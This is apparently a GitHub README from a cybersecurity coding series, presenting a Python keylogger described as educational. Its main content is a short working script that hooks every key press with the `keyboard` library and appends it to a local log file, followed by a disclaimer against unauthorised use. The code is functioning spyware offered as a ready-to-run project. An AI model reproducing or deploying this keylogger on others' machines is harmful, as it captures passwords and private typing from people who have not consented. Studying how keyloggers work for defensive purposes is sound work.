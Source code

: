 # Python Keylogger (Educational Purposes)

## Overview

This repository is part of a cybersecurity coding series, demonstrating how a simple keylogger can be built using Python. The purpose is **educational**, to understand how keyloggers function in a controlled environment.  
## Features

- Logs keystrokes in real-time to a local file (`keystrokes2.txt`).
- Uses Python's `keyboard` library ( (pip install keyboard) 
- Designed for educational testing only.

## Code Example

```python
import keyboard

log_file = 'keystrokes2.txt'

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write(f'{event.name}\n')

keyboard.on_press(on_key_press)
keyboard.wait()
```

## Disclaimer

This keylogger is intended **only for educational purposes** and has **not been run**. Unauthorized use on systems you do not own or have explicit permission to test on is illegal and unethical.

## Next Steps

This is part of a broader series focused on:

- Secure password managers
- Ethical hacking tools
- Defensive security mechanisms

Explore the repository for more projects in this series!

